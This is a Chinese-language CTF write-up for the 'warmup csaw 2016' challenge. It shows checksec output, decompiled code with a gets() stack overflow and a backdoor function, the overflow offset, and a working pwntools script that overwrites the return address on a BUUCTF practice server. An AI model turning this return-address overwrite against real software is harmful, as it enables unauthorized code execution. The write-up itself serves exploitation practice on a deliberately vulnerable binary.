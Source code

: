 # warmup csaw 2016

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec warmup_csaw_2016
[*] '/root/warmup_csaw_2016'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

## 静态分析

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```

存在溢出函数`gets`，另外通过查找函数表发现后门函数`sub_40060D`

```c
int sub_40060D()
{
  return system("cat flag.txt");
}
```



## 思路分析

本题比较简单，一开始将后门函数的地址就打印了出来，可以接收该地址，再通过`gets`函数溢出将返回地址修改为该值即可获得`flag`。

## 确定偏移量

使用`cyclic`，简单测试一下即可得知本题偏移量为0x40+8=72

## exp

```python
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/warmup_csaw_2016/warmup_csaw_2016'
io = remote('node4.buuoj.cn', 27868)
# io = process(pwnfile)
padding = 0x40+8
io.recvuntil(b':')
backdoor = int(io.recvuntil(b'\n', drop=True), 16)  # 接收地址
print("backdoor:{0}".format(hex(backdoor)))
payload = flat(['a'*padding, backdoor])
io.sendline(payload)
io.interactive()
```